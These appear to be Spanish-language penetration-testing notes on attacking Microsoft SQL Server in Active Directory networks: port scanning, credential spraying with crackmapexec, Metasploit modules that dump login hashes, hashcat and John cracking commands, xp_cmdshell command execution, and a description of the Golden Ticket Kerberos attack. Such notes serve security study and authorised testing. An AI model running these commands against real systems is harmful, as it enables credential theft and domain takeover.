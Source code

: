 Para ver si corre base de datos

```
nmap -n -P0 -p 1433 -sV --open -vv IP(AD)
```

Obtener credenciales.

```
crackmapexec mssql IP(AD) -u usuarios.txt -p diccionario.txt --local-auth --continue-on-success
```

```
msfconsole -q
use auxiliary/admin/mssql/mssql_sql
set RHOST IP(AD)
set PASSWORD
set SQL select password.hash from sys.sql_logins

#caracteristicas de la base de datos
use auxiliary/admin/mssql/mssql_enum
```

## MSSQL--> Content Header:Salt:Hash

Para romper hashes de contraseñas de SQL Server, puedes usar herramientas como `hashcat` o `john`:

```bash
# Con hashcat (modo 1731 para MSSQL 2012+)
hashcat -m 1731 --force -a 0 hash.mssql diccionario.txt

# Con John the Ripper
john --format=mssql12 --wordlist=diccionario.txt hash.mssql
```

> **Nota:** El modo 1731 corresponde a hashes de SQL Server 2012 en adelante (`mssql12` en John).

El procedimiento extendido `xp_cmdshell` permite ejecutar comandos del sistema operativo directamente desde SQL Server. Esto puede facilitar la escalada de privilegios o la persistencia.

```sql
-- Permite ejecutar comandos del sistema desde MSSQL
EXEC xp_cmdshell 'whoami';
```

Para automatizar esto con Metasploit:

```bash
use auxiliary/admin/mssql/mssql_exec
```

> **Precaución:** `xp_cmdshell` suele estar deshabilitado por defecto. Se requiere acceso privilegiado para activarlo.

## Golden Ticket

El ataque de Golden Ticket es una técnica avanzada que explota el funcionamiento interno del protocolo Kerberos en entornos de Active Directory. En esencia, este ataque permite a un atacante generar tickets de autenticación válidos sin necesidad de pasar por el proceso normal de autenticación del dominio. Esto se logra obteniendo el hash de la cuenta `krbtgt`, una cuenta especial utilizada por el controlador de dominio para firmar los Ticket Granting Tickets (TGTs). Una vez que el atacante tiene este hash, puede usar herramientas como Mimikatz para generar un TGT falso —el llamado "Golden Ticket"— que puede incluir cualquier identidad y privilegios deseados, incluso acceso como administrador del dominio.
